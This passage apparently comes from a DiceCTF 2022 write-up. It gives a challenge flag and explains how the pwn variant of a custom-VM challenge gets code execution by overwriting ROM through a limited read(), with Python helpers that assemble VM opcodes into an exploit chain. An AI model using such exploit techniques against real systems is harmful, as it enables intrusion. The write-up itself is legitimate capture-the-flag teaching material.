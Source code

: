 This gives us the flag `dice{st4ying_ins1de_vms_1s_0verr4ted}`

## Exploiting the flag input for remote code execution

Script: [exploit.py](https://github.com/reductor/dice-ctf-2022-breach-writeup/blob/main/exploit.py)

This is the contaminated pwn challenge which reuses this same binary, as mentioned earlier the `read()` writes to the start of the ROM, so it's possible to overwrite the code for after it returns from the parent code, in order to simplify writing this exploit I made use of pwninit to get working outside of Docker.

The `read()` only consumes `0x60` bytes, which is not really enough for us to fully exploit what we need, on top of this the location which it starts at is `0x28` so we have an option to jump around these address to try and have as much code as possible or fit it all in the `0x38` (`0x28-0x60`)

The first thing we need to start writing this exploit is some helpers to make it easier for crafting our own VM code

```py
def mov_imm(r, imm):
    return bytes((1 | (r << 4),)) + p64(imm)

def mov_reg(r1, r2):
    return bytes((2, r1 | (r2 << 4)))

def add(r1, r2):
    return bytes((3 | (0 << 4), r1 | (r2 << 4)))

def sub(r1, r2):
    return bytes((3 | (1 << 4), r1 | (r2 << 4)))
    
def mov_to_mem(r1, r2):
    return bytes((4, r1 | (r2 << 4)))

def mov_from_mem(r1, r2):
    return bytes((5, r2 | (r1 << 4)))    

def jump_imm(imm):
    return bytes((7,)) + p64(imm)

def print_reg(r):
    return bytes((10, r))
    
def halt():
    return bytes((0, ))
    
def call(in_payload, addr):
    ret = len(in_payload)+9+2+9+2+9
    payload = mov_imm(0, 8)
    payload += sub(15, 0)
    payload += mov_imm(0, ret)
    payload += mov_to_mem(15, 0)
    payload += jump_imm(addr)

    assert len(payload) + len(in_payload) == ret
    return payload

def syscall(payload):
    return call(payload, 0x2353)
```
